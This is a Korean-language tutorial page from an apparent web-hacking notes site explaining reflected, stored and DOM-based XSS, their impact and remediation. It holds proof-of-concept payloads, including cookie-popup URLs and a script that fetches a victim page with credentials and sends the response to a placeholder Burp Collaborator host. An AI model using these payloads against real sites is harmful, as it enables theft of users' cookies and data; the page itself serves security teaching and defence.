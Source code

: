 ```yaml
---
title: XSS (Cross-Site Scripting)
layout: default
parent: Web Hacking
nav_order: 2.3
description: "Web hacking"
---
```


# Cross Site Scripting (XSS)

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}


XSS는 웹사이트에 악성 스크립트 `<script>` 태그나 HTML의 `on` 태그 속성을 이용해서 클라이언트 측 브라우저에서 실행되도록 하는 공격입니다.

XSS의 공격은 크게 3가지 유형으로 나뉩니다.

## Reflected XSS (반사형) 
- 악성스크립트가 포함된 URL을 Victim에게 보내는 형식으로 이루어집니다.

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> ``` 
> https://<website>?url=<script>alert("XSS")</script> 
>```

- Victim이 해당 URL을 클릭하면, 서버에서 해당 악성 스크립트를 Victim의 브라우저로 **"반사 (Reflect)"** 해서 보냅니다.
- 브라우저는 해당 스크립트를 신뢰하는 웹사이트에서 온것으로 간주하고 실행합니다.

## Stored XSS (저장형)
- 악성 스크립트를 게시판, 댓글, 포럼 등 웹 서버의 데이터베이스에 저장하는것을 의미합니다.
- 다른 사용자가 해당 페이지에 접속하면, 서버에 저장된 스크립트가 해당 사용자 브라우저에서 실행이 됩니다.
- Reflected XSS와 다르게 특정 URL을 클릭할 필요 없이 불특정 다수에게 피해를 줄 수 있습니다.

## DOM-based XSS (DOM 기반형)
- 서버를 거치지 않고 사용자 브라우저의 Document Object Model (DOM) 환경에서 공격이 이루어 집니다.
- 주로 자바스크립트를 이용해 HTML 페이지를 조작하는 방식으로 작동합니다

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> ``` 
> https://<website>/#javascript:alert("XSS") 
>```

- URL의 매개변수 값 등을 조작해 스크립트를 실행시킵니다.

{: .warning }
> 많은분들이 "Reflected XSS" 와 혼동을 하시는 분들이 많습니다. 두 종류의 차이점은 악성 스크립트가 주입되는 시점에서 찾을수 있습니다.
> 1. DOM-based XSS 공격은 네트워크에서 서버에게 별도 요청없이 URL 주소 해시에 심은 악성 스크립트가 실행이 됩니다.
> 2. Reflected XSS 공격은 악성 스크립트가 일단 서버에 전달이 되어야합니다. 

## XSS Impact 
- 사용자 권한을 탈취할 수 있습니다. (Impersonate User).
- 사용자 데이터를 읽거나 쓸수 있습니다. (Read and Write data that user is accessible).
- 사용자의 로그인 계정을 탈취할 수 있습니다. (Capture Login creds).
- 악성코드 삽입 (Inject Trojan).
- 웹사이트 UI변경 (Virtual Defacement).

## XSS Attack Chain
- Steal Cookie (쿠키를 탈취할 수 있습니다)

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> 쿠키를 팝업창에 띄우기
> ``` 
> https://<website>?url=<script>alert(document.cookie)</script> 
>```

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> 쿠키를 Burp Collaborator (Attacker 서버로 보낼때)
> ``` 
> https://<website>?url=[The script under] 
>```
> **[The script under]**:
>```js
> <script>
>   var xhr = new XMLHttpRequest();
>   var url = 'VICTIM URL'
>   xhr.onreadystatechange = function() {
>       if (xhr.readyState == XMLHttpRequest.DONE) {
>           fetch('https://BURPCOLLABORATOR/' + xhr.responseText)
>       }
>   }
>   xhr.open('GET', url, true);
>   xhr.withCredentials = true;
>   xhr.send(null);
> </script>
>```

- Capture Password (로그인 크레덴셜 탈취)
- Bypass CSRFToken (CSRF 토큰을 우회할 수 있습니다)

## Remediation

- **입력값 검증**: 사용자로부터 입력받는 모든 데이터에 대해 `< > " ' & javascript on` 같은 특수문자나 스크립트를 필터링 또는 이스케이핑 처리를 해야 됩니다. Whitelist 방식을 쓰는것이 가장 바람직 합니다.
- **출력 인코딩**: 서버에서 브라우저로 데이터를 보낼 때, 스크립트가 실행되지 않도록 HTML Entity로 변환해야 합니다.
- **보안 헤더 설정 (CSP)**: Content-Security-Policy (CSP) 같은 보안 정책을 사용해 어떤 스크립트를 실행할지 미리 정의합니다.
